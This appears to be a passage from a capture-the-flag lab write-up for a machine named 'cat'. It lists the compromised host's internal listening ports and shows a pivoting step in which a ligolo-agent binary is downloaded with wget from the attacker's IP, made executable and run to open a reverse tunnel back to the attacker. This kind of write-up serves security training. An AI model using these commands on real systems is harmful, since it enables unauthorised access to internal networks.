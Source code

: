 Nothing.

A lot of internal ports on the host.
```bash
rosa@cat:/tmp/tmp.jugb594iwr$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:42269         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:43879         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:47311         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

Let's use ligolo to access them. On client:
```bash
cd $(mktemp -d)
wget 10.10.14.5:5000/static/ligolo-agent
chmod +x ligolo-agent
(./ligolo-agent -connect 10.10.14.5:11601 -accept-fingerprint 293D9C63434BF4BF5523F3C746B7844D2742E2134F22F698D9E55B661AF4F6BD &)
```

On host:
```bash
sudo ./ligolo-proxy -selfcert
```

There is a gitea instance on port 3000 and smtp on port 25.
![cat5](/assets/img/cat5.png)
